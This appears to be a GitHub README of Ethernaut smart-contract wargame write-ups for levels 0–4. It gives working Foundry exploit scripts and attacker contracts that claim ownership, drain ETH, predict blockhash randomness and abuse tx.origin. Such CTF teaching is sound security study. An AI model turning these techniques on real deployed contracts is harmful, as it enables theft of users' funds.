




# Ethernaut WriteUps

Ethernaut is OpenZeppelin’s wargame to learn about Ethereum smart contract security.

I solved all these challenges using `foundry` framework in my local environment which made testing and solving the challenge easily.

- Make sure you have `foundry` installed locally.
- Check if you have foundry by running the command below.
```bash
forge --version
```
If you see a output like this
``` bash
forge 0.3.0 (5a8bd89 2024-12-20T08:45:53.204298000Z)
```
Then you are good to go...

### **Step 1: Set Up the Solution Script**
1. Navigate to your Foundry project.
2. Inside the **`script/`** folder, create a solution file (e.g., `ChallengeSolution.s.sol`).
3. Your script should:
   - **Interact with the instance contract** using its address.
   - **Execute the exploit** (e.g., calling functions, sending ETH, or manipulating storage).
   - **Verify that the exploit was successful**.

### **Step 2: Load Environment Variables**
Before running the script, ensure your **`.env`** file is correctly formatted:
```ini
PRIVATE_KEY=your_private_key
INFURA_URL=https://eth-sepolia.g.alchemy.com/v2/YOUR_INFURA_KEY
MY_ADDRESS=your_wallet_address
```
Then, load the environment variables:

```ini
source .env
```

### **Step 3: Execute the Script on Sepolia**
To execute your solution on the Sepolia network, run:

```ini
forge script script/ChallengeSolution.s.sol --rpc-url $INFURA_URL --broadcast
```

-	This interacts directly with Sepolia, executing your exploit.
-	If successful, your contract should be hacked or manipulated as required.

---
---

# Challenges

## 0. Hello
The first challenge gets you accustomed to the usual way each challenge needs to be set up. Using the Chrome developer tools you can see the level address that will be used to create a challenge contract instance for you. You can call `contract.abi` in the console to see the available functions to call on the contract. After calling the various `info` functions you receive a hint that you need to call the `authenticate` function with a password to pass this level. The password can be retrieved by the `password()` function and is `ethernaut0`.

This is the solution script `script/Level0Solutiions.s.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/Level0.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract Level0Solution is Script {
    
    Level0 public level0 = Level0(0x9C27364c0C4C0bFCAF0A671e4b2D898D687CBd8e);

    function run() public {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY")); // Use the private key that deployed your Ethernaut instance
        
        string memory pass = level0.password(); // Read the password directly
        console.log("Extracted Password:", pass);
        
        level0.authenticate(pass); // Authenticate using the extracted password

        bool cleared = level0.getCleared();
        require(cleared, "Authentication failed!");
        console.log("Success! Level cleared.");

        vm.stopBroadcast();
    }
}
```

---
---

## 1. Fallback

The goal of this challenge is to :
1. Claim ownership of the contract.
2. Drain it's ETH.

So we should find a loophole to be the owner of this contract.

In the `contribute()` function the `owner` is set the `msg.sender`. To achieve the ` owner = msg.sender;` two conditions should be met:
1. `require(msg.value < 0.001 ether)`
2. `if (contributions[msg.sender] > contributions[owner])`

So, call the contribute function with some ETH (even 1 wei works) `contribute{value: 1 wei}()` and then, to increase the contributions do `address(fallbackIns).call{value: 1 wei}("")` this calls the receive() function. Once receive() is called with `msg.value > 0 && contributions[msg.sender] > 0` then the `owner` becomes the `msg.sender`.

For the second goal `Drain it's ETH` => Since you became the owner, just call the withdraw() function which drain all the ETH. And that's it the challenge has completed :)

This is the solution script `script/FallbackSolution.s.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/Fallback.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract FallbackSolution is Script {
    
    Fallback public fallbackIns = Fallback(payable(0x4c949eF7B0BeBd67aDCaf8c0bB99af0908fCD0BC));

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        fallbackIns.contribute{value: 1 wei}(); // Call the contribute function with some wei
        (bool success, ) = address(fallbackIns).call{value: 1 wei}("");
        require(success, "Transaction failed");
        console.log("New Owner: ", fallbackIns.owner());
        console.log("My address: ", vm.envAddress("MY_ADDRESS"));
        fallbackIns.withdraw(); // Drain the contract's ETH by calling the withdraw function.

        vm.stopBroadcast();
    }
}
```

---
---
## 2. Fallout

The goal of this challenge is claim ownership of the contract. (As simple as that). Think as a hackers mindset, How can i claim the ownership of this contract? Is there any loopholes ???

This challenge uses the older version of the solidity compiler i.e, `pragma solidity ^0.6.0`.

In the older versions there is no specific constructor keyword. So the constructor is used as the contract's name itself in this case it's `Fallout`.

The contract’s constructor sets the owner as the msg.sender upon deployment.

Upon closer inspection, we discover that the `“so-called constructor”` in the Fallout smart contract is not a constructor. It is just a public payable function with a different name `“Fal1out”` (with 1 instead of l), and this function will not be automatically triggered upon contract deployment. Due to this, the owner remains set to address zero, and anyone can call this function to update the owner.

### Exploiting the Vulnerability
All we need to do is call the public `Fal1out()` function and it will update the owner variable with our address. Let’s solve it with Foundry.

First, we will create in the src\ folder the Fallout.sol contract and paste the original contract code:

Then we will create a new file inside the `script\` folder called `FalloutSolution.s.sol`

`FalloutSolution.s.sol`
```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

// Objective
// 1. Claim the ownership of the contract.

import "forge-std/Script.sol";
import "forge-std/console.sol";
import "../src/Fallout.sol";

contract FalloutSolution is Script {

    Fallout public fallout = Fallout(payable(0x762e68df2BdBE79f8d8e18E1c5bd33816181e9C5));

    function run() public {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        console.log("Owner Before: ", fallout.owner());

        fallout.Fal1out();

        console.log("Owner After: ", fallout.owner());
        vm.stopBroadcast();
    }

}
```

Now that the exploit script is ready, we can execute from our terminal the following command: `forge script script/FalloutSolution.s.sol --rpc-url $INFURA_URL --broadcast`

---

### **Ethernaut Fallout Challenge - Easy Console Method**

### **📌 Solving via Console**
There is an **easier way** to solve this challenge directly from the **console**.

---

**1️⃣ Open Console & Get the Instance**
First, open the **console** and retrieve the contract instance.

You can check the **player's address** by running:
```javascript
player
'0xa8CFB5E2DF0C1B5232227a0bD15E745c7Acc5585'
```

And importantly the command `contract.abi` gives all the available function for this contract.

2️⃣ To see all available functions, use:


3️⃣ Exploit the Faulty Constructor

The contract has a misnamed constructor (Fal1out instead of Fallout).
Since Solidity only recognizes constructors if they match the contract name exactly, Fal1out() is treated as a regular public function.
don't forget to use the keyword `await` as the function returns a promise.

You can call it using:

```javascript
await contract.Fal1out()
```


Once the transaction is confirmed, submit the instance to complete the challenge!


---
---

## 3. Coin Flip
The goal is to correctly predict the coin flip 10 times in a row. The contract uses the previous blockhash as the flip outcome. We can easily solve this challenge by deploying a custom contract simulating the exact same coin flipping logic and calling the real challenge contract with this result.

**Vulnerability:** The contract uses blockhash(block.number - 1) for randomness, which can be predicted.

### Smart Contract Analysis
`CoinFlip.sol`
```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968; // *

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1)); // *

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

### 🔍 Identifying the Vulnerability

- The contract relies on blockhash(block.number - 1) for randomness.
- Since we can calculate this value before calling flip(), we can always guess correctly.
- This makes the game completely predictable and breakable.

**Have a look after this, for a better understanding**
 [Entropy Illusion by Mastering Ethereum Book](https://github.com/ethereumbook/ethereumbook/blob/develop/09smart-contracts-security.asciidoc#entropy-illusion)

**Additional Things to look up if you'r interested in `Entropy`. I feel these videos are very interesting and I learnt many interesting things about `Entropy`.**
- [What is entropy? - Jeff Phillips -by TED-Ed](https://www.youtube.com/watch?v=YM-uykVfq_E&t=0s)
- [The Most Misunderstood Concept in Physics -by Veritasium](https://www.youtube.com/watch?v=DxL2HoqLbyA)

### 🔹 Exploiting the Vulnerability
**Exploit Strategy**

    - ✅ Step 1: Calculate blockhash(block.number - 1).

    - ✅ Step 2: Divide it by FACTOR to get the expected outcome (0 or 1).

    - ✅ Step 3: Call flip() with the correct guess.

    - ✅ Step 4: Repeat this for 10 blocks to win.

### Foundry Exploit Script
`CoinFlipSolution.s.sol`
```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/CoinFlip.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

// Player contract to automate flipping
contract Player {
    uint256 constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(CoinFlip _coin) {
        uint256 predictedHash = uint256(blockhash(block.number - 1));
        uint256 predictedNumber = predictedHash / FACTOR;
        bool side = predictedNumber == 1 ? true : false;
        _coin.flip(side);
    }
}

contract CoinFlipSolution is Script {
    CoinFlip public coin = CoinFlip(0xb70c360f7EC4bF2B04eCE62abba1963dDd405Ca9);

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        new Player(coin);
        console.log("Consecutive Wins: ", coin.consecutiveWins());
        vm.stopBroadcast();
    }
}
```
**Running the Exploit (Single Execution)**

```bash
forge script script/CoinFlipSolution.s.sol --tc CoinFlipSolution --rpc-url $INFURA_URL --broadcast
```

- Each time this script runs, it flips the coin once with a guaranteed win.
- But we need 10 wins in 10 blocks, so we repeat this execution 10 times.

**Automating the Attack with a Bash Script**

Since flip() only works once per block, we automate the process:
```bash
#!/bin/bash
for i in {1..10}
do
  forge script script/CoinFlipSolution.s.sol --rpc-url $INFURA_URL --broadcast
  sleep 12  # Wait for the next Ethereum block
done
```

**After running the script 10 times, check your win count:**
```bash
forge script script/CoinFlipSolution.s.sol --rpc-url $INFURA_URL --broadcast
```
**If consecutiveWins == 10, submit the instance and finish the challenge!**



### Lessons Learned
-	❌ Never use blockhash(block.number - 1) for randomness → It can be predicted.
-	✅ Use Chainlink VRF for true randomness.
-	✅ Attackers can automate brute-force exploits using off-chain scripts.

### Once the transaction is confirmed, submit the instance to complete the challenge!


---
---

## 4. Telephone


## 🎯 Goal

Claim ownership of the `Telephone` contract by ensuring `tx.origin != msg.sender` during the call to `changeOwner()`.

---

## 📖 Challenge Explanation

This level demonstrates a classic vulnerability involving the misuse of `tx.origin`.

```solidity
if (tx.origin != msg.sender) {
    owner = _owner;
}
```

The goal is to trigger the `changeOwner()` function such that:
- `msg.sender` is **a contract**
- `tx.origin` is **your EOA**

This condition is true **only if you call the function through a helper (attacker) contract**. When done correctly:
- `tx.origin` will be your wallet address (EOA)
- `msg.sender` will be the attacker contract

This satisfies the condition and allows you to change ownership.

---

## 🛠️ Vulnerable Contract and Attack Contract

This is the `Telephone.sol`, which includes both the vulnerable contract and the attacker contract:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}

// Attack Contract which claims the ownership of Telephone contract.
contract AttackTelephone {
    Telephone public target;

    constructor(Telephone _target) {
        target = _target;
    }

    function attackTel() public {
        target.changeOwner(msg.sender);
    }
}
```

---

## 🚀 Solution Script

This is the `TelephoneSolution.s.sol` script that deploys the attacker contract and triggers the vulnerability:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Telephone, AttackTelephone} from "../src/Telephone.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract TelephoneSolution is Script {

    Telephone public target = Telephone(0x913f6Bc2B694E7336896143a30Ee6A7D1FF73B28);

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        // Deploy the AttackTelephone contract
        AttackTelephone attack = new AttackTelephone(target);
        console.log("Attack contract deployed owner: ", address(attack));

        // Check initial owner
        console.log("Initial Owner: ", target.owner());

        // Execute the attack
        attack.attackTel();

        // Check new owner
        console.log("New Owner: ", target.owner());

        vm.stopBroadcast();
    }
}
```

---

## ✅ Foundry Test

This is the `TelephoneTest.t.sol` to test the vulnerability using Foundry's test suite:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import {Telephone, AttackTelephone} from  "../src/Telephone.sol";

contract TelephoneTest is Test {
    Telephone public tel;
    AttackTelephone public attack;

    address public attacker = makeAddr("attacker");

    function setUp() public {
        tel = new Telephone();
        attack = new AttackTelephone(tel);
    }

    function test_owner() public {
        address initialOwner = tel.owner(); 
        console.log("Initial Contract Owner: ", initialOwner);

        vm.prank(attacker);
        attack.attackTel();

        console.log("After attack owner: ", tel.owner());

        assertEq(attacker, tel.owner(), "Owner is not the same");
    }
}
```

---

## 🧪 Run the Test

### ✅ Test Output



### 📝 Once the script is executed, submit the instance:



---

## 📚 References

- 🔗 [How to Solve Ethernaut Telephone (Hackernoon)](https://hackernoon.com/how-to-solve-the-ethernaut-games-level-4-telephone)
- 🔍 [Using tx.origin for Authorization Is Dangerous](https://hackernoon.com/hacking-solidity-contracts-using-txorigin-for-authorization-are-vulnerable-to-phishing)
- 🎥 [YouTube Explanation](https://www.youtube.com/watch?v=mk4wDlVB4ro&t=291s&pp=ygUQdHgub3JpZ2luIGF0dGFjaw%3D%3D)

---

## 🧠 Takeaway

Using `tx.origin` for authentication is highly discouraged. Always use `msg.sender` for access control.
